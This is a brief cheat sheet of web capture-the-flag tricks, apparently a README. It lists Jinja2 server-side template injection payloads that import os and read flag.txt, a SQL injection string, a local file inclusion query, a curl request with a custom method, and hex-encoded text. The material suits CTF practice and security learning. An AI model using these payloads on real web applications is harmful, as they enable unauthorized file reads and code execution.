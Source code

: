 ## Useful things to try in web ctf challenges
---

### To check the flag file location
```py
submit?name={{request.application.__globals__.__builtins__.__import__(%27os%27).listdir()}}
```

## To read the vulnerability
```py
submit?name={{%27abc%27.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0](%27flag.txt%27).read()}}
```

## SQL INJECTION
```python
'OR'1'='1
```

## Get the flag
```python
$ curl -I https://r3qu35t-m3-fl4g.vishwactf.com -X FLAG
```

change the cookie and refresh the website it works in some cases. try observing robots.txt file of a webpage.

## Hex to ascii
```python
\x47\x75\x65\x73\x73\x20\x54\x68\x65\x20\x46\x6C\x61\x67\x73\x68\x63\x74\x66\x7B\x66\x6C\x61\x67\x7D","\x59\x6F\x75\x20\x67\x75\x65\x73\x73\x65\x64\x20\x72\x69\x67\x68\x74\x2E..
convert to hex using ascii will give the flag.
```

## Search for flag.txt in php files
```php
/index.php?file=flag.txt
Search lfi filter cheatsheet
```

### php
```html
https://www.php.net/manual/en/wrappers.glob.php
```





